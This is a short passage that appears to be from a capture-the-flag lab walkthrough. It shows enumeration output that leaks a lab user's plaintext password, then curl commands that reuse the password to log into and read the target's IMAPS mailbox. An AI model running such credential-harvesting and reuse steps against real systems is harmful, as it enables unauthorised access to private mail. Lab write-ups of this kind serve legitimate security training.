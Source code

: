 ```bash
10.129.225.141:67ms:.0:BOOT_IMAGE=/vmlinuz-5.4.0-90-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro ipv6.disable=1 maybe-ubiquity

10.129.225.141:66ms:.0:0
10.129.225.141:65ms:.0:244
10.129.225.141:64ms:.0:0
10.129.225.141:67ms:.0:1
10.129.225.141:66ms:.80:/opt/tom-recovery.sh
10.129.225.141:61ms:.80:tom NMds732Js2761
10.129.225.141: Message cannot be decoded!
10.129.225.141: Message cannot be decoded!
10.129.225.141: Message cannot be decoded!


# Check toms imaps
curl -k 'imaps://10.129.225.141' --user tom:NMds732Js2761

# Look around:
curl -k 'imaps://10.129.225.141/INBOX;UID=1' --user tom:NMds732Js2761

# get key

```